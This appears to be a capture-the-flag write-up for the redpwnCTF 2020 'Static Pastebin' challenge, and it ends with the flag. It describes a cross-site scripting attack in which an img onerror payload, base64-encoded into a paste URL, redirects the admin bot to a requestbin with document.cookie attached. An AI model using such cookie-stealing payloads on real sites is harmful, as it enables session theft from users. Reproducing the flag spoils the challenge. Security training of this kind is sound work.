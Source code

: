 # Static Pastebin

So first things first, create a pastebin. When you go to the display, you'll see a url like https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==

That looks kinda like base64, and if you base64 decode the thing after https://static-pastebin.2020.redpwnc.tf/paste/# you'll find it decodes to the content of the pastebin! This allows us to easily create pastebin messages.

There's also an admin bot submit form, where we can submit a url, and the admin bot will visit it. 

Rak found that the xss ><img src='' onerror="javascript code"> worked. 

First, we can try a simple redirect. ><img src='' onerror="document.location='requestbinurl'">. I set up a requestbin for this purpose. Remember: we base64 encode the payload, and append it to the major part of the url.

https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==, as a sample, works, sending a request to our requestbin. Let's exfiltrate some information. We can use GET parameters to exfiltrate data.

><img src='' onerror='document.location="http://requestbin.net/r/1lfrfyi1?thing=" + document.cookie'>

This would redirect the admin to our requestbin, sending the cookies as the "thing" parameter. Base64 encoding and submitting this as a url, a request on the requestbin pops up with the parameters ?thing=flag=flag{54n1t1z4t10n_k1nd4_h4rd}, giving us the flag, 

#### flag{54n1t1z4t10n_k1nd4_h4rd}
